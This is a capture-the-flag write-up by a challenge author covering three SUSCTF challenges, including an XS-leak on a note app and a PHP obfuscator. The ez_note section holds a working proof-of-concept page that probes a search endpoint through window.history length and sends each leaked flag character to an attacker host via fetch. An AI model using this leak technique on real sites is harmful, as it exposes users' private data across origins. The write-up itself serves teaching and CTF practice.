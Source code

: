 # checkin & ez\_note & rubbish maker wp
please forgive my poor english.

## checkin
pls read challenge description carefully
PM bot send `>flag` it will give you flag, but edit it quickly.
just use screenshot to get flag

## ez\_note

### tl;dr
xs leak window.history

### solution
this challenge is not a xss challenge, but a xs leak one. 
Though there is a `unsafe-inline`in the CSP,  it is used for the redirection script. I used it instead of nonce for the redirection script(because i think this could convince players it is a xss challenge). In fact, there isn't any xss vulnerability, every output has been escaped. And users can't see their notes with each other. I had mention it in the note creation interface. You can also register two accounts to prove it. I also publicize the flag format as a hint which indicate it is a xs leak challenge.
That means it isn't a xss challenge, and we noticed there is a search function in this website, which would redirect user when there is only one search result. We can use this different to get admin's note.
The logic of bot is in the attachment, bot use nodejs URL class to create visit url, and I have assigned the `base` to the ez_note's site, user input is the `path` arg, like this: `let url = new URL(path, site)`
However, if you look into the document, when path is absolute, the base is ignored.
```javascript
let myURL = new URL('http://Example.com/', 'https://example.org/');
// http://example.com/

myURL = new URL('https://Example.com/', 'https://example.org/');
// https://example.com/

myURL = new URL('foo://Example.com/', 'https://example.org/');
// foo://Example.com/
```

so we can easily bypass the url restriction by just input an absolute url. Now we need to use that search function to leak admin's note. There is a X-Frame-Option restrict frame include to same origin. Website cookie's samesite attribute is set to lax. Thus there is no way to use iframe. So we choose `window`, which can bypass the samesite cookie. When exploiting xs leak, we need to figure out the differece between the different behaviors. In this challenge it is the redirection for the only match. If there is a redirection, the window's history attribute's length will increase. 

there is a poc:
```html
<!DOCTYPE html>
<html lang="en">
<body onload=exp()>
</body>
<script>
    function exp(){
        let charset = "1234567890_qwertyuiopasdfghjklzxcvbnm"
        for(let c of charset){
            test(c)
        }
    }
    function test(c) {
        let win = open("http://123.60.29.171:10001/search?q=SUSCTF{"+ c )

        setTimeout(()=>{win.location="http://ip"}, 2000)
        setTimeout(()=>{
            console.log(c)
            console.log(win.history.length)
            if(win.history.length === 3)
            {
                fetch("http://ip/?" + c)
            }
        }, 4000)
        setTimeout(()=>{
            win.close()
        }, 5000)
    }

</script>
</html>
```

## rubbish maker
This challenge is a php code obfuscator based on [PHP-Parser](https://github.com/nikic/PHP-Parser). You can check out my source code and solution [here](https://github.com/Z3ratu1/my_ctf_challenge/tree/main/SUSCTF2022/rubbish_maker). It is composed by four part: `NameObfuscator`, `ScalarObfuscator`, `ControlFlowFlattener` and `LogicShuffler`.

You can better understand it's logic after check these code.

I wrote a obfuscator with syntax analysis in order to prevent some player use some black magics like python or regexp. I alse add some anti-debugger code and disrupt control flow to prevent debug(but I don't know anything about anti-debug, so i just copy some code from Internet, I hope it works). In this challenge, I hope players to restore the code through AST rather than write lots of regexp to replace it.

There is a function at the begining of the code, and it almost be called in everywhere in the rest of the code. Obviously, we need to restore this function. There are 3 main statements in this function, `goto`, `if`, `return`, it accept one param then use it to get a return value. The first statement of this function is define a variable. Then it xor with the input param to check out which value to return, we can use xor to get the code which we need to get the corresponding return value. There are some players just run this function to get the return value, which is a excellent idea. After solved the function, we need to deal with the main code logic. However, there is only some goto statement, so it wouldn't be very hard. But there is some fake goto may lead to endless loop. If you can figure out the goto statement which go back to the previous label is fake, you can solve it easily.
